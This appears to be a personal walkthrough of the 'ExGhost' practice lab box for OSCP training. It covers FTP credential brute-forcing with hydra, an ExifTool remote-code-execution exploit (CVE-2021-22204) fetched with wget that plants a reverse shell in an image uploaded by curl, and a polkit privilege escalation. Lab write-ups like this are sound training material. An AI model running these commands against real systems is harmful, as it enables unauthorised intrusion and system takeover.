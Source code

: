 # ExGhost Walkthrough
Name: Exghost
Date:  04/09/2022
Difficulty:  Easy
Goals:  OSCP
Learnt: 
- This wordlist for ftp default creds `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`
- Importance of manual PrivEnum
- No compiler no worries go python3 exploit
- 

![](kali.jpg)

Reupload after failure with markdown image sizing
`
## Recon

Thought my recon was good.. but ended up adding this to my hydra cheatsheet. Close the walkthrough because that seemed like a bit of a slap in the face.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
```

![](ftpbrute.png)

Got the backup file, `file backup` outputs that it is a pcap filem open wireshark 
![](posttoexiftool.png)

![](exampleupload.png)

Post the Pentest Monkey PHP reverse shell!

![](curlnoworko.png)


## Exploit && Foothold
Can back to finish this walkthrough; there is a [remote code execution](https://github.com/AssassinUKG/CVE-2021-22204) for EXifTool 12.23 
```bash
wget https://raw.githubusercontent.com/AssassinUKG/CVE-2021-22204/main/CVE-2021-22204.sh
chmod +x CVE-2021-22204.sh
bash CVE-2021-22204.sh "reverseme $ip 80" kali.jpg
curl -F myFile=@kali.jpg http://192.168.141.183/exiftest.php
```

![](upload-succesful.png)


## PrivEsc

![](linenumone.png)

LinEnum does not check expoitable apts, manually:
```bash
apt list --upgradeable
```

I started work on a script to searchsploit the a list of vulnerable apts, but I need to either make something workable with json as the output for bash weird even with the `--colour` flag...away polkit-1 is vulnerable to [CVE-2021-4034](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py). Because this Ubuntu box does not have gcc this is a python3 exploit.

![](root.png)